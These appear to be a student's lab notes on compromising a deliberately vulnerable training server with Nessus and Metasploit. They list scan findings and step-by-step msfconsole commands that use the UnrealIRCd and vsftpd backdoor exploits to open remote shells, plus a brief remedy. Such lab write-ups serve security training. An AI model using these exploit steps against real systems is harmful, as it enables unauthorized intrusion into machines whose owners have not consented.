

# 2 Metasploit -> gaining access

Goal attack the server: "iloveshells.vm.vuln.land" using metasploit

### Vulnerability scan using Nessus
Via Nessus web interface I start an advanced scan on iloveshells.vm.vuln.land
Found: 110 vulnerabilities of which 6 are considered critical. 
Detected OS: Linux Kernel 2.6 ubuntu 8.04 (gutsy)

**Port scan results**
Some open ports and corresponding services: 21 (ftp), 22 (ssh), 23 (telnet), 25(smtp), 53 (dns), 80 (www), .... etc. (not all isted here)

**Service scan results**
Results overlap with port scan but a) theorethically services could run on the wrong ports and b) services could run on higher ports. Some results: 
- FTP (port 21 + 2121)
- Web (port 80 + 8180)
- VNC (port 5900)
- irc (port 6667)

### Remote shell via IRC metaxploit 
From the Nessus scan i know that iloveshells.vm.vuln.land has a critical vulnerability that allows remote shell execution via IRC. To exploit this, i did the following. 
- `msfconsole` start it from console (now we can enter specific commands)
- `search irc` -> will show exploits (because the got "exploits" in their path/name) 
    - found unrealRDC 
- `use exploit/unix/irc/unreal_ircd_3281_backdoor` 
- `set RHOSTS iloveshells.vm.vuln.land` 
- `set payload payload/cmd/unix/bind_perl`
- `exploit`

 works :-)  we got our shell and can now run bash commands. Maybe it is because I don't know linux bash not very well (or metasploit, shell etc.) but I cannot really navigate in the folder. "cd .." doesn't seem to work to explore the file system. However, i can still do it via `ls / -al` to see the root dir and from there I coud use cat or pipes etc. to explore the system. 

**Remedy**
Reinstall updated and verified software without backdoor. Recommendation from Nessus

### Varia Notes ettc.

**Metasploit framework**
metasploit can be used to: 
- create trojan horses
- run attacks

https://www.youtube.com/watch?v=oBAC5UfalC8

**Nessus vulnerability scanner**
Vulnerability scanner with web interface
https://www.youtube.com/watch?v=sfT_qEw3Fcs

**Example attach on FTP vulnerability (see video)**

- `msfconsole` start it from console (now we can enter specific commands)
- `search exploits` -> will show exploits (because the got "exploits" in their path/name) 
- `search vsftp`  -> search for exploit that has "vsftp" in its path/name
- `use exploit/unix/ftp/vsftpd_234_backdoor` use/run specific exploit (full path) > command promt will change (now can enter commands for that particular exploit)
    - `options` -> exists for every exploit
    - `set RHOSTS iloveshells.vm.vuln.land`  to set server to be attacked for the vsftpd exploit
        - you can run options again to see if it appears in options now
    - `show payloads` -> will show payloads that are available for this server (if there is only one it will automatically choose the only one available)$
    - `exploit` -> run/start acutal exploit (if there is only one exploit there we can leave out the payload)
        - with this exploit (vsftpd) a shell is now open (other exploits will provide different feedback) and we can now run commands on this shell which are executed on iloveshells.vm.vuln.land

